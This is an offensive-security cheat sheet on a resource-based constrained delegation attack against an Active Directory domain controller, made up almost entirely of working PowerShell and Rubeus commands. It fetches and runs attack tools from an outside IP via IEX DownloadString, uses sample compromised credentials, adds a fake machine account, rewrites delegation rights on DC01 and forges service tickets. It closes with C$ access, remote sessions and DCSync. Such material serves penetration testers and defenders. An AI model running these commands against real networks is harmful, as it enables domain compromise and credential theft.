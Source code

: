 


## RBCD from Windows

Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powerview4.ps1")
```

Define credentials for the compromised account with the necessary DACL:

```
PS > $userWithDaclUsername = 'megacorp.local\snovvcrash'
PS > $userWithDaclPassword = ConvertTo-SecureString 'Qwe123!@#' -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential($userWithDaclUsername, $userWithDaclPassword)
```

Add new machine account and configure RBCD (i.e., set `msDS-AllowedToActOnBehalfOfOtherIdentity` property to value of the new machine account SID) on the vulnerable host (DC01):

```
Powermad > New-MachineAccount -MachineAccount fakemachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PV3 > $computerSID = Get-DomainComputer -Identity fakemachine -Properties ObjectSid -Verbose -Credential $cred | select -Expand ObjectSid
PS > $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($computerSID))"
PS > $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS > $SD.GetBinaryForm($SDBytes, 0)
PV3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose -Credential $cred
PS > .\Rubeus.exe hash /domain:megacorp.local /user:fakemachine$ /password:Passw0rd!
FC525C9683E8FE067095BA2DDC971889
```

Ask TGS for CIFS and also inject [other](https://adsecurity.org/?page_id=183) potentially useful service names into the ticket (sname field [is not protected](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) in TGS-REQ):

```
PS > .\Rubeus.exe s4u /domain:megacorp.local /user:fakemachine$ /rc4:FC525C9683E8FE067095BA2DDC971889 /impersonateuser:DC01$ /msdsspn:CIFS/DC01.megacorp.local /altservice:host,wsman,ldap,http /ptt
```

If the ticket cannot be imported or there's no access to corresponding services, troubleshoot it:

* Try impersonating different privileged users when requesting the ticket.
* Try using FQDN to NetBIOS under `/msdsspn` parameter (i.e., `CIFS/DC01.megacorp.local` > `CIFS/DC01`).

After the ticket has been successfully imported we can go for filesystem access (CIFS), PSRemoting (WSMAN), DCSync (LDAP) and so on:

```
PS > klist
# CIFS
PS > cd \\DC01.megacorp.local\c$
PS > ls
PS > c:
# WSMAN
PS > Enter-PSSession -ComputerName DC01.megacorp.local
PS > exit
# LDAP
PS > ...DCSync...
```
